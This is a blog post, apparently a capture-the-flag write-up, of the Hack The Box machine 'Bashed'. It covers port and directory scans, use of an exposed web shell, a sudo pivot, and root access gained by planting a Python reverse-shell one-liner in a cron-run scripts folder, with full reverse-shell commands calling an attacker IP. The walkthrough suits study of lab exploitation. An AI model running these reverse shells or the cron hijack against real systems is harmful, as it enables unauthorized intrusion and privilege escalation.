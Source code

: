 ```yaml
---
layout: post
title:  "Bashed"
date:   2023-10-28 07:15:30 -0400
categories: jekyll update
---
```



Bashed

Was an easy box up to the tricky priv esc but finally got the root.

```
┌──(root💀kali)-[/home/spacemoth/machines/lame/CVE-2007-2447]
└─# nmap -sC -sV -Pn 10.10.10.68
Starting Nmap 7.93 ( https://nmap.org ) at 2023-10-28 05:07 EDT
Nmap scan report for 10.10.10.68
Host is up (0.055s latency).
Not shown: 999 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Arrexel's Development Site
```
Not much there so ran an all port scan `-p`:
```
┌──(root💀kali)-[/home/spacemoth/machines/lame/CVE-2007-2447]
└─# nmap -p- -Pn 10.10.10.68
Starting Nmap 7.93 ( https://nmap.org ) at 2023-10-28 05:07 EDT
Nmap scan report for 10.10.10.68
Host is up (0.039s latency).
Not shown: 65534 closed tcp ports (reset)
PORT   STATE SERVICE
80/tcp open  http
```
Not much of a difference so I check out the web server at port 80, not much there. I run gobuster:
```
┌──(root💀kali)-[/home/spacemoth/machines/lame/CVE-2007-2447]
└─# gobuster dir -u 10.10.10.68 -w /usr/share/wordlists/dirb/common.txt
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.10.68
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.hta                 (Status: 403) [Size: 290]
/.htaccess            (Status: 403) [Size: 295]
/.htpasswd            (Status: 403) [Size: 295]
/css                  (Status: 301) [Size: 308] [--> http://10.10.10.68/css/]
/dev                  (Status: 301) [Size: 308] [--> http://10.10.10.68/dev/]
/fonts                (Status: 301) [Size: 310] [--> http://10.10.10.68/fonts/]
/images               (Status: 301) [Size: 311] [--> http://10.10.10.68/images/]
/index.html           (Status: 200) [Size: 7743]
/js                   (Status: 301) [Size: 307] [--> http://10.10.10.68/js/]
/php                  (Status: 301) [Size: 308] [--> http://10.10.10.68/php/]
/server-status        (Status: 403) [Size: 299]
/uploads              (Status: 301) [Size: 312] [--> http://10.10.10.68/uploads/]
Progress: 4614 / 4615 (99.98%)
===============================================================
Finished
==============================================================
```
First thing pops out at me is the `/dev` domain. So I check it out and its a phpbash web shell. I obtain the user flag:
```
www-data@bashed:/var/www/html/dev# whoami
www-data  
www-data@bashed:/var/www/html/dev# cd ..
www-data@bashed:/var/www/html# cd ..
www-data@bashed:/var/www# cd ..
www-data@bashed:/var# cd ..
www-data@bashed:/# ls
<snip>
www-data@bashed:/# cd home
www-data@bashed:/home# ls
arrexel  
scriptmanager  
www-data@bashed:/home# cd arrexel
www-data@bashed:/home/arrexel# cat user.txt
82d****************************
```
I tried sudo -l and it returned that scriptmanager is able to run sudo without a password. I was unable to switch to the user so I looked for a reverse shell one-liner. I found this:
```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```
Stabilized my shell: `python -c "import pty;pty.spawn('/bin/bash')"`
I ran the command: `sudo -u scriptmanager /bin/bash`
```
$ python -c "import pty;pty.spawn('/bin/bash')"
www-data@bashed:/$ sudo -u scriptmanager /bin/bash
sudo -u scriptmanager /bin/bash
scriptmanager@bashed:/$ whoami
whoami
scriptmanager
scriptmanager@bashed:/$ 
```
I noticed the folder `scripts` in the root directory and checked it out. It has 2 files:
```
scriptmanager@bashed:/scripts$ ls -la
ls -la
total 16
drwxrwxr--  2 scriptmanager scriptmanager 4096 Jun  2  2022 .
drwxr-xr-x 23 root          root          4096 Jun  2  2022 ..
-rw-r--r--  1 scriptmanager scriptmanager   58 Dec  4  2017 test.py
-rw-r--r--  1 root          root            12 Oct 28 02:55 test.txt
```
Root owns test.txt and the time its "created" keeps changing, which makes me to believe its a cron job. The test.py file writes to the test.txt:
```
scriptmanager@bashed:/scripts$ cat test.py
cat test.py
f = open("test.txt", "w")
f.write("testing 123!")
f.close
```
I will replace this file and put a reverse shell one-liner into it so when the cron job runs, which is owned by root, will hopefully give us an elevated session back. On the target machine I enter this command to create a new file:
```
scriptmanager@bashed:/scripts$ echo 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.24",1235));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);' > exploit.py
<o(),2);p=subprocess.call(["/bin/sh","-i"]);' > test2.py
```
I set up a nc listener and as soon as I do I get a shell.
```
┌──(kali💀kali)-[~]
└─$ nc -nlvp 1235 
listening on [any] 1235 ...
connect to [10.10.14.24] from (UNKNOWN) [10.10.10.68] 58710
/bin/sh: 0: can't access tty; job control turned off
# whoami
root
```
I was going to change the name of the original test.py to something else and change the new file I just created to test.py. Apparently the cron job is set up to run all .py files as root in the scripts directory. I went ahead and grabbed the root flag.
```
# cd root
# ls
root.txt
# cat root.txt
42*************************
```
